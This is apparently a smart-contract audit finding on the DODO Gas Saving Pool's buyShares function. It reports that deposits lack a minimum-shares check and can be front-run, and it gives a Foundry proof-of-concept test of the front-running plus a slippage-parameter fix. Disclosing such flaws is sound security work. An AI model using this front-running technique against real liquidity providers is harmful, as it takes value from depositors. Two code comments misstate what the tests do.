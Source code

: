 Witty Cerulean Panther

high

# Buying shares can be frontrunned

## Summary
When users buy shares, they deposit tokens and receive a ratio of share tokens in exchange. However, the issue lies in users not being able to determine the minimum number of shares they are willing to receive. The share tokens to be minted are determined within the function execution. This creates vulnerability to front-running, where an unfortunate transaction could result in users receiving fewer LP tokens than they would typically get.
## Vulnerability Detail
When users deposits token this is how the shares to be minted is calculated:
```solidity
uint256 baseInputRatio = DecimalMath.divFloor(baseInput, baseReserve);
uint256 quoteInputRatio = DecimalMath.divFloor(quoteInput, quoteReserve);
uint256 mintRatio = quoteInputRatio < baseInputRatio ? quoteInputRatio : baseInputRatio;
// The shares will be minted to user
shares = DecimalMath.mulFloor(totalSupply, mintRatio);
```

It's evident that the `mintRatio` is determined as the lowest ratio between the divisions of baseInput and quoteInput by their respective reserves. Therefore, if a preceding transaction alters the ratios, the number of shares to be minted can change.

For example, consider a pool initialized with 100-100 tokens. If someone intends to deposit 80-50 tokens, normally it would result in:
min(80/100, 50/100) = 50/100
Hence, the mintRatio is calculated as 50/100, resulting in the user receiving shares equivalent to totalSupply * 50/100. However, if another user deposits 10-20 just before the initial user, the ratios will change due to the updated reserves. Consequently, the initial user will receive fewer shares despite depositing the same amount of tokens.
Here a coded PoC illustrates the above scenario:
```solidity
// @review this is how much hippo would get if tapir wouldn't frontrun his tx
    function test_normalCondition() external {
        vm.startPrank(tapir);
        dai.safeTransfer(address(gsp), 100 * 1e18);
        usdc.transfer(address(gsp), 100 * 1e6);
        gsp.buyShares(tapir);
        vm.stopPrank();

        vm.startPrank(hippo);
        dai.safeTransfer(address(gsp), 80 * 1e18);
        usdc.transfer(address(gsp), 50 * 1e6);
        gsp.buyShares(hippo);

        // hippo wants to deposits properly, but it will fail because of the minimum mint value!
        console.log("Hippos shares", gsp.balanceOf(hippo));
    }

    // @review this is how much hippo gets with the same amount but this time he get frontrunned
    function test_FrontrunMintingShares() external {
        // tapir deposits 100-100 to initiate the pool
        vm.startPrank(tapir);
        dai.safeTransfer(address(gsp), 100 * 1e18);
        usdc.transfer(address(gsp), 100 * 1e6);
        gsp.buyShares(tapir);

        // tapir then frontruns hippo and adds 10-20
        dai.safeTransfer(address(gsp), 10 * 1e18);
        usdc.transfer(address(gsp), 20 * 1e6);
        gsp.buyShares(tapir);
        vm.stopPrank();

        vm.startPrank(hippo);
        dai.safeTransfer(address(gsp), 80 * 1e18);
        usdc.transfer(address(gsp), 50 * 1e6);
        gsp.buyShares(hippo);

        // hippo wants to deposits properly, but it will fail because of the minimum mint value!
        console.log("Hippos shares", gsp.balanceOf(hippo));
    }
```

Test result and Logs:
<img width="484" alt="image" src="https://github.com/sherlock-audit/2023-12-dodo-gsp-mstpr/assets/120012681/220a26dc-afb3-41d5-ba99-10f9a97004ea">

## Impact
High since every user can get easily frontrunned or simply get unfortunate tx'ed. 
## Code Snippet
https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/af43d39f6a89e5084843e196fc0185abffe6304d/dodo-gassaving-pool/contracts/GasSavingPool/impl/GSPFunding.sol#L31-L82
## Tool used

Manual Review

## Recommendation
Add an "minimumAmountShares" variable to buyShares so that the users can determine their minimum LP in return of their liquidity provision.